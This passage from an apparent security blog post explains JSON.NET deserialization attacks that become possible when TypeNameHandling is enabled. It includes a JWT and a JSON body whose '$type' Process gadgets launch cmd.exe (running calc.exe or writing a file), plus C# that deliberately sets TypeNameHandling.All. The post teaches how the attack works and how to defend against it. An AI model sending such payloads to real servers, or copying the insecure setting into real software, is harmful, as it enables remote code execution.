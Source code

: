 The above translates into a JWT. I censored the JWT, but the payload is the same.

```json
eyJh***.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyLCJleHAiOjE2MTYyMzkwMjIsInByb2Nlc3MiOnsiJHR5cGUiOiJTeXN0ZW0uRGlhZ25vc3RpY3MuUHJvY2VzcywgU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iMDNmNWY3ZjExZDUwYTNhIiwiU3RhcnRJbmZvIjp7IkZpbGVOYW1lIjoiY21kLmV4ZSIsIkFyZ3VtZW50cyI6Ii9jIGNhbGMuZXhlIiwiQ3JlYXRlTm9XaW5kb3ciOnRydWUsIlVzZVNoZWxsRXhlY3V0ZSI6ZmFsc2V9fX0.jDT3u***
```

## Body

The following JSON is the Json I used to try to create a file test.txt with the content test.

```json
{ "minMaxTempC": { "min": -1, "max": 2 }, "name": "crazy", "$type": "System.Diagnostics.Process, System.Diagnostics", "StartInfo": { "FileName": "cmd.exe", "Arguments": "test > test.txt", "RedirectStandardOutput": true } }
```

Because the model was not the one that the server expected, I got bad requests. So I ensured that it had the same properties as the model.

```csharp
public record TemperatureCelciusBucket(TempCRange minMaxTempC, string Name);
public record TempCRange(double Min, double Max);
```

In the `JsonSerialiserSettingsProvider,` you can notice the following comment about the type handling issue.

![json_net_typenamehandling_none.png](../assets/images/blog/2023-03-26-the-hidden-dangers-of-jsons-hunger-silenced/json_net_typenamehandling_none.png)

You need to set up your program to set the `TypeNameHandling` to `All` to ensure the attack could be done. Note, you want to set it to `None` when you try to protect yourself against an attack.

```csharp
builder.Services.AddControllers().AddNewtonsoftJson(options =>
{
    options.SerializerSettings.TypeNameHandling = TypeNameHandling.All;
    options.SerializerSettings.ContractResolver = new DefaultContractResolver();
});
```

On the website of JSON.NET, for that property and option, you do not get that warning. Check it out for yourself:

[TypeNameHandling Enumeration (](https://www.newtonsoft.com/json/help/html/T_Newtonsoft_Json_TypeNameHandling.htm)[newtonsoft.com](http://newtonsoft.com)[)](https://www.newtonsoft.com/json/help/html/T_Newtonsoft_Json_TypeNameHandling.htm)

They do mention that is a good practice to whitelist the objects that you want to use, which is also recommended by [OWASP](https://www.linkedin.com/posts/cybersecricki_i-will-be-bringing-some-freshly-delivered-activity-7043002593966522368-9mFL/).
